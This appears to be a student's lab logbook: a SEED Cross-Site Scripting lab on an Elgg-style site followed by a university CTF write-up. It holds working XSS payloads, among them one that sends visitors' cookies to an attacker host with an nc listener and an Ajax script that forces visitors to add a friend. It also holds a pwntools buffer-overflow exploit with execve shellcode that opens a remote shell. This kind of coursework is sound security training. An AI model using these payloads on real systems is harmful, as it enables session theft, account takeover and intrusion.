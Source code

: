 # Cross-Site Scripting (XSS) Attack Lab

## Task 1

- Logged in as Alice, since their credentials are displayed in the lab guide (username: alice, password: seedalice).
- Clicked the *Edit Profile* button and set the Brief Description with the string:
`<script>alert('hello')</script>`
- After visiting Alice's profile page, the user is surprised by a pop-up, meaning that the Javascript code was executed.

![Task 1 screenshot](images/Lab5Task1.png)

## Task 2

- The procedure is similar to the previous task, but the content of the pop-up is now replaced by the user's cookies, stored in the variable `document.cookie`

![Task 2 screenshot](images/Lab5Task2.png)

## Task 3

- Similarly to the previous tasks, edit the Brief Description of Alice's profile, but this time its content will be the string:
`<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>`
- This way, when some user visits Alice's profile, an HTTP GET request will be sent to the attacker's machine.
- The attacker's machine must be listening on the port 5555, done by executing the following command:
`nc -lknv 5555`
- When the HTTP GET request is received, the cookies of the user that visited Alice's profile become available to the attacker.

![Task 3 screenshot](images/Lab5Task3.png)

## Task 4

- Log in as Alice and manually add Samy as a friend, by visiting his profile page and clicking on the button *Add friend*.
- Check the HTTP request of that action by using a Firefox add-on called HTTP Header Live.
- Based on the request URL, change the value of the variable `sendurl`:
`var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token`
- Log in as Samy using the given credentials (username: samy, password: seedsamy).
- Edit his profile by inserting the following script in the About Me section, using the *Text mode*, which is done by clicking on the button *Edit HTML*:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the HTTP request to add Samy as a friend
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

- Log in as Boby, using the given credentials (username: boby, password: seedboby) and visit Samy's profile. By refreshing the page, it's possible to see that Boby instantly became Samy's friend.

- Question 1 answer:
    - Lines ➀ and ➁ are stored as variables given those are dynamic security tokens unique to a user that enters Samy's profile page, which are required security parameters to add Samy as a friend.
- Question 2 answer:
    - We were unable to launch an attack in the *Editor Mode*, given that it sanitizes the input of some characters, such as "<" or ">" signs, making Javascript insertion impossible.

![Task 4 screenshot](images/Lab5Task4.png)

# Capture The Flag

## Challenge 1:

- Do a submission of an arbitrary justification and noticed that the page of the request has two buttons and one of them is called "Give the flag".
- By analyzing the HTML code of the page, we conclude that this button id is "giveflag".
- As the name says, the action of this button returns the flag of this challenge, so all we need to do is to click on it.
- This can be done by injecting Javascript code by entering the following string in the justification field:
```Javascript
<script>document.getElementById("giveflag").click()<script>
```
- Submit 1st flag ("**flag{8620558bac7f21c09ec60e0bcafc2bb1}**")

## Challenge 2:

- Downloaded the files provided for this CTF.
- Executed the `checksec program` command to analyse the program compilation protections and noticed the following characteristics:
    - No RELRO
    - No canary found
    - NX disabled
    - PIE enabled
    - No RPATH
    - No RUNPATH
- The line 12 of the code has a vulnerability, since the function *gets* keeps reading the input until it founds a newline/EOF character, independentely of the size of the variable where the program stores that input. So, by introducing an input larger than the buffer size (which in this case is 100 bytes), it continues writing past the end and into memory it doesn't own.
- We must fill the buffer with the shellcode that allows us to get access to the shell. We used the shellcode given in the Buffer Overflow Lab (LOGBOOK 5), for 32 bit system.
- We also used the Python scripts given in that lab, adjusting the values to this new problem.
- First, we tested the exploit locally, using the executable `program`.
- The buffer address is printed as soon as we run the executable, and we must get its value in runtime, since it changes everytime the program runs.
- To achieve that, we used the function recvuntil() that reads bytes from the console, to isolate the address value.
- Then, we needed to convert this value to a string, and then to heximal using the funtion int() with the second argument as 16, which is the base.
- We set the offset to 108, which is the number of positions after the buffer address where the return address is located. We found this number using gdb to dump the memory.
- Finally, using the funtion sendline(), we are able to send the buffer with the shellcode to the process.
- After success on the local experiment, we use the function remote() to connect to the server where the exploit will be applied, and we obtain the flag for this challenge.
- The final version of the Python  script used is the following:

```python
#!/usr/bin/python3

from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4001)


### Falta o encoding?
a=r.recvuntil(b" is ")
a=r.recvuntil(b".", drop=True)
a=a.decode('utf-8')
a=int(a, 16)
print(a)


shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(200))
##################################################################
# Put the shellcode somewhere in the payload
start = 0 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = a # ✩ Need to change ✩


offset = 108 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')

r.sendline(content)
r.interactive()
##################################################################
```
- Submit 2nd flag
